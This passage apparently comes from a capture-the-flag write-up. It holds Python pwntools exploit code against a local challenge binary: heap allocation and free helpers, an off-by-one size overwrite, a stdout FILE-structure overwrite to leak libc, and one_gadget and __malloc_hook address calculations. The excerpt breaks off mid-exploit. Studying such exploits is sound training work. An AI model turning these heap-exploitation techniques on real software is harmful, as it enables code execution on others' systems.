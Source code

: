 ```python
	try:
		global p
		p = process('./pwn')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```



exp2

```python
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content):
	p.sendlineafter('>>>\n','1')
	p.sendlineafter('idx:\n',str(index))
	p.sendlineafter('len:\n',str(size))
	p.sendafter('content:\n',content)

def delete(index):
	p.sendlineafter('>>>\n','2')
	p.sendlineafter('idx:\n',str(index))

def pr(str1,addr):
	log.success(str1+'===>'+hex(addr))

def pwn():
	add(0,0x28,'\x00')
	add(1,0x28,'\x00')
	add(2,0x60,'\x00')
	add(3,0x28,'\x00')
	
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x28,'\x00')
	add(2,0x50,'\xdd\xb5')
	add(2,0x60,'\x00')
	add(2,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	p.recv(0x40)
	leak = u64(p.recv(8))
	libcbase = leak - 0x3c5600
	pr('libcbase',libcbase)
	for i in range(4):
		one_gadget[i] += libcbase
		pr('one_gadget'+str(i),one_gadget[i])
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	pr('malloc_hook',malloc_hook)

	#gdb.attach(p)	
	add(0,0x28,'\x00')
	add(1,0x28,'\x00')
	add(2,0x60,'\x00')
	add(3,0x28,'\x00')
	
	delete(0)
```
